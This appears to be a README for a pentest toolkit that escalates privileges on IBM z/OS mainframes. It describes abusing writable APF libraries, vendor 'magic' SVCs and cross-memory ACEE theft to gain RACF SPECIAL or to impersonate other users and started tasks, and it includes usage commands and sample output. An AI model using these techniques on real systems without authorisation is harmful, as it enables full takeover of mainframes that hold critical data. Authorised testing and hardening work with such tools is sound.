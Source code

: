 # Privilege escalation on z/OS

Some scripts to quickly escalate on z/OS given certain misconfigurations.  
These techniques have been around for a while, I just stringed some code together to have something easy to use in a pentest.

## UELV.APF    
### Description
This tool will check access to BPX.FILEATTR.APF. This allows you to create APF authorised programs in USS. It will spawn a ACEE Special bit shell.

### Usage
```
./UELF.APF will create a exec called aceesh
./UELF.APF testshell will create a exec called testshell
```

## ELV.APF    
### Description
This tool will list APF authorized libraries by browsing control blocks in memory. For each library it returns the access right of the current user.  
Given a library with ALTER/UPDATE access, the script compiles an ASM program into that library and executes it to give the SPECIAL privilege to the current user.
the ASM program updates the ACEE block in memory to give temporary SPECIAL privilege, which are made permanent by a regular ALU user SPECIAL a following step.
If you want to manually specify the user getting the SPECIAL privilege, replace userid() with any user in line 104

### Usage
 ```  
 List APF libraries : ex 'ELV.APF' 'LIST'
 Get Special: ex 'ELV.APF' '<APF_LIBRARY>'  
 ```
### Credit
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://mzelden.com/mvsutil.html  
http://zdevops.github.io/zdosu/ 

## ELV.SVC
### Description
This tool will go through user defined SVC looking for a "magic" or "auth" SVC.  
These are SVC generally used to temporarily grant admin privileges to normal users (in some instances installed by vendors)  
ELV.SVC looks for a specific pattern in each user SVC (num > 200) and if finds one dumps the SVC's opcode.  

The tool can also be used to call this "magic" SVC to grant SPECIAL privileges to the current user. It provides the possibility to defined a constant in a register before calling the target SVC to bypass some potential checks.
If you want to change the TSO command giving special privileges, alter line 342

Register 12 is used as base register. As such, it cannot be used to pass parameters.


### Usage
 ```  
 Look for magic SVC on TSO :  
     ex 'ELV.SVC'
 Get Special using SVC 233 and placing C1C1C1C1 in register 10: 
     ex 'ELV.SVC' 'NUM=233 10=C1C1C1C1 DSN=TEST.PDS'
```  
### Credit
Got the idea from Mark Wilson @ich408i   
https://share.confex.com/share/120/webprogram/Handout/Session12275/2013%20Share%20Pen%20Testing.pdf
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://www.mzelden.com/mvsfiles/iplinfo.txt  


## ELV.SELF
The tool lists address spaces currently running on z/OS: started tasks, tso users and jobs  
The user can choose an address space to "impersonate" by stealing their ACEE structure.  
The tool will perform cross memory copy to steal the privileges of the target and patch the current TSO session  
Requirement : APF library with ALTER access OR "magic" SVC (see above)

Register 12 is used as base register. As such, it cannot be used to pass parameters.

### Usage
 ```  
List active address spaces  
 TSO> ex 'ELV.SELF' 'LIST'  
 
 *** Listing active address spaces ***
  
 **** Started Task - Owner *****
 NETVSSI   -
 NETVIEW   -
 NETVSAM   -
 RACF      -  START2
 JES2      -
 DLF       -
 RRS       -
 VLF       -
 LLA       -
 CICSTS32  -  START2
 RMF       -  START2
 NET       -  START2
 RMFGAT    -  START2
 TCPIP     -  TCPIP
 TSO       -  START1
 PORTMAP   -  START2
  
 **** TSO Users - Owner ****
 ZERO     -  ZERO
 IBMUSER   -  IBMUSER
  
 **** Jobs - Owner ****
 FTPD1     -  FTPD
 INETD4    -  OMVSKERN


Impresonate TSO user IBMUSER, using APF library  
TSO > ex 'ELV.SELF' 'TAR=IBMUSER APF=USER.LINKLIB'  
      
Warning: No RACF profile defined for USER.LINKLIB  
Might not be able to write to USER.LINKLIB  
Got ASID 80 for IBMUSER  
Got ASID 38 for current session  
Local ACEE at  008FC6F0  
Compiling  UNCVDDF in APF USER.LINKLIB  

TSO > LU
USER=IBMUSER  NAME=*******  OWNER=IBMUSER   CREATED=*****


Impresonate Started task CICSTS32, using magic SVC 233 (register 10 to AAAA to grant access)      
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233 10=C1C1C1C1'  
Impresonate Started task CICSTS32, using magic SVC 233     
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233'  
```  

